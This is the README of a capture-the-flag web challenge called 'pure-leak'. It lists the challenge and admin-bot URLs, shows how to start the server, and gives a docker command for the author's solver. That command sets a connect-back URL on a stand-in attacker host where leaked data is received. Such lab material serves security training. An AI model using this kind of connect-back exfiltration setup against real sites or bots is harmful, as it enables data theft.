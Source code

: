 # [web] pure-leak

## Description

Just leak it!

- Challenge: `http://pure-leak.asisctf.com:3000`
- Admin bot: `http://pure-leak.asisctf.com:1337`

## Attachments

- [pure-leak](distfiles)

## Usage

Launch a challenge server:

```
cd challenge
docker compose up
```

Run the author's solver:

```
docker run -it --rm \
    -e BOT_BASE_URL=http://localhost:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 --network=host \
    (docker build -q ./solution)
```
where `http://attacker.example.com` is an origin forwarded to `http://localhost:8080`.
